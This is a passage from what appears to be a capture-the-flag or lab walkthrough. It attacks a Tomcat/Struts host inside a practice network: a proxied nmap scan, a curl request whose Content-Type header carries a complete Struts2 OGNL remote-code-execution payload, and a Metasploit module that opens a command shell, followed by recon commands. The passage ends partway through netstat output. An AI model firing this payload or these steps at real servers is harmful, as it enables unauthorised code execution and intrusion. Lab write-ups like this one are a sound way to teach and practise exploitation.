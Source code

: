 root@kali:~# proxychains nmap -sT -Pn 192.168.111.5  
>ProxyChains-3.1 (http://proxychains.sf.net)  
>Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-13 13:35 CDT  
>Nmap scan report for 192.168.111.5  
>Host is up (0.011s latency).  
>Not shown: 998 closed ports  
>PORT     STATE SERVICE  
>8009/tcp open  ajp13  
>8080/tcp open  http-proxy  
>  
>Nmap done: 1 IP address (1 host up) scanned in 12.00 seconds  
  
###HTTP  
  
We already knew that it had a tomcat server running struts. We check with firefox the server and see that is a brand new installation.  
  
root@kali:~# proxychains firefox http://192.168.111.5:8080  
>ProxyChains-3.1 (http://proxychains.sf.net)  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:8080-<><>-OK  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:8080-<><>-OK  
>|S-chain|-<>-127.0.0.1:9050-<><>-192.168.111.5:8080-<><>-OK  
  
  
We know base on the previous machine that the struts version is the 2.3.15, so let's try the famous RCE (https://www.exploit-db.com/exploits/45260):  
  
root@straylight:~# curl http://192.168.111.5:8080/struts2_2.3.15.1-showcase/showcase.action -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"  
>uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)  
  
Easy! We already have a RCE. Let's get our shell.  
  
  
###BASIC SHELL  
  
After all this work, let's go the easy path and just load the metasploit module  
  
msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI struts2_2.3.15.1-showcase/showcase.action  
>TARGETURI => struts2_2.3.15.1-showcase/showcase.action  
msf5 exploit(multi/http/struts2_content_type_ognl) > run  
>[*] Started bind TCP handler against 192.168.111.5:4450  
>[*] Sending stage (38 bytes) to 192.168.111.5  
>[*] Command shell session 2 opened (192.168.148.3-192.168.148.5:0 -> 192.168.111.5:4450) at 2019-04-13 13:47:18 -0500  
>  
>id  
>uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)  
>hostname  
>neuromancer  
>uname -a  
>Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux  
>  
>netstat -punta  
>(Not all processes could be identified, non-owned process info  
> will not be shown, you would have to be root to see it all.)  